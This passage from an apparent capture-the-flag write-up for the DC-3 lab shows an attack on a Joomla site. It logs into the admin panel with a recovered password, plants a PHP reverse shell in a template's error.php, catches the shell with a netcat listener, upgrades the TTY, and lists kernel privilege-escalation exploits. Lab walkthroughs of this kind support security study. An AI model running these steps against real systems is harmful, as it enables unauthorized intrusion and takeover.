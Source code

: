 Now that we have the admin's password, let's connect to `http://dc-3/administrator/` with `admin:snoopy`.

# Reverse shell

From the admin panel go to "Extensions > Templates > Beez3 > Editor". Edit the `error.php` page and replace the content with a PHP reverse shell. Click on the "Save" button.

Now, start a listener (`rlwrap nc -nlvp 4444`) and browse the `error.php` page.

~~~
$ curl dc-3/templates/beez3/error.php
~~~

You now have a reverse shell spawned to the listener window:

~~~
kali@kali:/data/DC-3-2/files$ rlwrap nc -nlvp 4444
listening on [any] 4444 ...
connect to [172.16.222.128] from (UNKNOWN) [172.16.222.158] 59558
Linux DC-3 4.4.0-21-generic #37-Ubuntu SMP Mon Apr 18 18:34:49 UTC 2016 i686 i686 i686 GNU/Linux
 23:49:59 up 34 min,  0 users,  load average: 0.00, 0.03, 0.05
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ which python3
/usr/bin/python3
$ python3 -c "import pty;pty.spawn('/bin/bash')"
www-data@DC-3:/$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
~~~

# Privilege escalation

## Vulnerable OS / kernel

The target is running an old release of Ubuntu 16.04 with an old kernel:

~~~
www-data@DC-3:/tmp$ cat /etc/issue
cat /etc/issue
Ubuntu 16.04 LTS \n \l
www-data@DC-3:/tmp$ uname -a
uname -a
Linux DC-3 4.4.0-21-generic #37-Ubuntu SMP Mon Apr 18 18:34:49 UTC 2016 i686 i686 i686 GNU/Linux
~~~

Searching for privilege escalation exploits affecting Ubuntu 16.04 will provide you with several exploits:

~~~
kali@kali:/data/DC-3-2/files$ searchsploit ubuntu 16.04 privilege escalation
--------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                 |  Path
--------------------------------------------------------------------------------------------------------------- ---------------------------------
Exim 4 (Debian 8 / Ubuntu 16.04) - Spool Privilege Escalation                                                  | linux/local/40054.c
LightDM (Ubuntu 16.04/16.10) - 'Guest Account' Local Privilege Escalation                                      | linux/local/41923.txt
Linux Kernel (Debian 7.7/8.5/9.0 / Ubuntu 14.04.2/16.04.2/17.04 / Fedora 22/25 / CentOS 7.3.1611) - 'ldso_hwca | linux_x86-64/local/42275.c
~~~